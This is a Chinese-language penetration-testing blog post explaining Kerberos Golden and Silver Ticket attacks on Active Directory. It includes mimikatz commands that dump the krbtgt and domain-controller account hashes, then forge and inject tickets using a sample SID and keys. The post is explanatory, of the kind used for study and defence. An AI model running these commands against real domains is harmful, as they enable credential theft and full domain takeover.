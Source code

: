 ```yaml
---
title: "Kerberos协议之黄金票据和白银票据"
date: 2020-11-12T11:41:51+08:00
draft: false
tags:
- Kerberos
series:
- Windows协议
categories:
- 渗透测试
---
```


填坑
<!--more-->

# Golden Ticket
在AS_REQ & AS_REP中，用户使用自身hash加密时间戳发送给KDC，KDC验证成功后返回用krbtgt hash加密的TGT票据。如果我们有krbtgt的hash，就可以自己给自己签发任意用户的tgt票据。

制作金票需要先导出来krbtgt的hash

```
lsadump::dcsync /domain:test.local /user:krbtgt
```

然后需要sid和krbtgt的hash，这里生成Golden Ticket不仅可以使用aes256，也可用krbtgt的NTLM hash，可以用mimikatz "lsadump::lsa /patch"导出。

```
kerberos::golden /domain:test.local /sid:S-1-5-21-514356739-3204155868-1239341419 /aes256:b4e2924c2d378eda457c2dd3810fdde0a5312354c2b26bc677dfb48e46a17fe7 /user:administrator /ticket:gold.kirbi
```

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/c37e1d99-39f8-bbbb-2772-8a2c316dff70.png)

然后我们使用这张票据就可以随意在某一台机器上ptt访问dc了。
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/684534a7-8081-f24e-5abf-c32e0d0e2af7.png)


# Silver Ticket
白银票据是出现在TGS_REQ & TGS_REP过程中的。在TGS_REP中，不管Client是否有权限访问特殊服务，只要Client发送的TGT票据是正确的，那么就会返回服务hash加密的tgs票据。如果我们有了服务hash，就可以签发tgs票据。

此处使用dc的cifs服务做演示。首先需要获得如下信息：

1. /domain
2. /sid
3. /target:目标服务器的域名全称，此处为域控的全称
4. /service：目标服务器上面的kerberos服务，此处为cifs
5. /rc4：计算机账户的NTLM hash，域控主机的计算机账户
6. /user：要伪造的用户名，此处可用silver测试

`sekurlsa::logonpasswords`导出服务DC$账户的ntlm hash
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/f9a52c2e-438a-3e59-4f29-0ad6c2e5b199.png)

```
kerberos::golden /domain:test.local /sid:S-1-5-21-514356739-3204155868-1239341419 /target:dc.test.local /service:cifs /rc4:9150e40e4ec936a15baf384ca382a3df /user:dc$ /ptt
```

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/cb1f0cdb-b31f-d08e-cf66-d42405d34902.png)

不仅仅是cifs服务还有其他：
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/ae4aa870-4146-f7ff-4003-5b56eb5c4028.png)
ldap可以用来dcsync

# 两者区别
白银票据与黄金票据的不同点

1. 访问权限不同
Golden Ticket: 伪造 TGT,可以获取任何 Kerberos 服务权限
Silver Ticket: 伪造 TGS,只能访问指定的服务

2. 加密方式不同
Golden Ticket 由 krbtgt 的 Hash 加密
Silver Ticket 由服务账号(通常为计算机账户)Hash 加密

3. 认证流程不同
Golden Ticket 的利用过程需要访问域控,而 Silver Ticket 不需要

# 参考
1. [域渗透——Pass The Ticket](https://wooyun.js.org/drops/%E5%9F%9F%E6%B8%97%E9%80%8F%E2%80%94%E2%80%94Pass%20The%20Ticket.html)
2. https://adsecurity.org/?p=2011
3. http://sh1yan.top/2019/06/03/Discussion-on-Silver-Bill-and-Gold-Bill/


**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**